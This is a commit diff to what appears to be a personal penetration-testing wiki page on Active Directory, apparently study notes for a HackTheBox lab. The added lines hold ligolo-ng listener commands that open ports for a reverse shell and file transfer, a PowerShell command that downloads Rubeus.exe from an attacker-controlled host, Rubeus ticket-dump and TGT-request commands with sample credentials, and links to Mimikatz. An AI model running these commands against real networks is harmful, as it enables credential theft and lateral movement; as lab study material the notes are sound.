

Before and after one commit to qwutony/qwutony.github.io, a Jekyll site: the page built from _wiki/003-active-directory-penetration-testing.md, in a window 1280 px wide and 1400 px high, scrolled down 4786 px. Shown: the top 1397 px of the window at 82% size. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; a style sheet for code colours, icons or effects is not loaded; before the commit the page ends 5732 px from its top, so only the background shows below that.

Commit message:
Update 003-active-directory-penetration-testing.md

````diff
--- a/_wiki/003-active-directory-penetration-testing.md
+++ b/_wiki/003-active-directory-penetration-testing.md
@@ -209,8 +209,28 @@ sudo ./proxy -selfcert -laddr 0.0.0.0:443 -v
 session
 start
 sudo ip route add 192.168.110.0/24 dev ligolo
+
+listener_add --addr 0.0.0.0:1234 --to 0.0.0.0:4444 (open port on DMZ machine for reverse shell)
+listener_add --addr 0.0.0.0:1235 --to 0.0.0.0:8000 (open port on DMZ machine for file transfer)
+
+powershell -Command "Invoke-WebRequest -Uri 'http://192.168.110.51:1235/Rubeus.exe' -OutFile 'Rubeus.exe'"
 ```
+**Additional Resources**
+  - [Ligolo Guide for pivoting](https://systemweakness.com/pivoting-for-newbies-with-ligolo-ng-82f13040aa39)
+  - [Advanced pivoting guide](https://arth0s.medium.com/ligolo-ng-pivoting-reverse-shells-and-file-transfers-6bfb54593fa5)
+
+**[Rubeus for Windows](https://github.com/r3motecontrol/Ghostpack-CompiledBinaries)**
+
+```
+Rubeus.exe dump /luci:0x599ac7 /service:CIFS/dc.painters.htb /nowrap /outfile [dump to kirbi files]
+Rubeus.exe asktgt /user:blake /password:Password123! /domain:PAINTERS.HTB /dc:192.168.110.55 [request for TGT using credentials]
+```
+
+**[Mimikatz](https://github.com/gentilkiwi/mimikatz/releases)**
+
+**[Wordlists](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/#hashcat-install)**
 
 ## Resources
  - [The Hacker Recipes](https://www.thehacker.recipes/)
  - [Active Directory Exploitation Cheat Sheet](https://github.com/S1ckB0y1337/Active-Directory-Exploitation-Cheat-Sheet)
+ - [InternalAllTheThings](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/)
````
